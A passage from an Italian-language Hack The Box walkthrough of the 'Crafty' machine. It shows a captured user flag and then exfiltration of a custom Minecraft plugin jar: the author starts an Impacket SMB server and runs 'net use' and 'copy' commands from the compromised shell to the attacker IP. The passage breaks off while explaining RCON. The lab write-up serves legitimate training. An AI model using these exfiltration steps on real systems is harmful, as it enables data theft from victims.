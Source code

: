 Siamo dentro e ci prendiamo la nostra user flag 
```shell-session
c:\Users\svc_minecraft\Desktop>type user.txt
type user.txt
8e7f4c510edf34d8b63262483ff20060
```

# PRIVES

L'esecuzione dei nostri normali controlli non mostra nulla di valore, quindi controllando la directory `c:\Users\svc_minecraft\server\plugins>`  scopriamo che esiste un file
file, `playercounter-1.0-SNAPSHOT.jar`che sembrerebbe essere un plugin personalizzato.

Il prossimo passo è quello di  esfiltrarlo per esaminarlo , avvierò un server SMB con smbserver.py di Impacket

```shell-session

┌──(root㉿kali)-[/home/kali/htb/crafty]
└─# smbserver.py share . -smb2support -username xrabbit -password xrabbit
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

e dalla nostra shell lo copiamo

```shell-session
c:\Users\svc_minecraft\server\plugins>net use \\10.10.14.15 /u:xrabbit xrabbit
net use \\10.10.14.15 /u:xrabbit xrabbit
The command completed successfully.


c:\Users\svc_minecraft\server\plugins>copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.15\share\
copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.15\share\
```

Ora che abbiamo un file jar valido possiamo utilizzare un decompilatore online come [questo](http://www.javadecompilers.com) per decompilare il plugin nel codice sorgente.

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/crafty2.png)

rkon è una libreria pubblica per il protocollo Source RCON, progettata per server di gioco. Dai documenti:

`Il protocollo Source RCON è un protocollo di comunicazione basato su TCP/IP utilizzato dal Source Dedicated Server, che consente l'invio dei comandi della console al server tramite una "console remota" o RCON. L'uso più comune di RCON è consentire ai proprietari dei server di controllare i propri server di gioco senza accesso diretto alla macchina su cui è in esecuzione il server. Affinché i comandi possano essere accettati, la connessione deve prima essere autenticata utilizzando la password RCON del server, che può essere impostata utilizzando la variabile della console rcon_password.
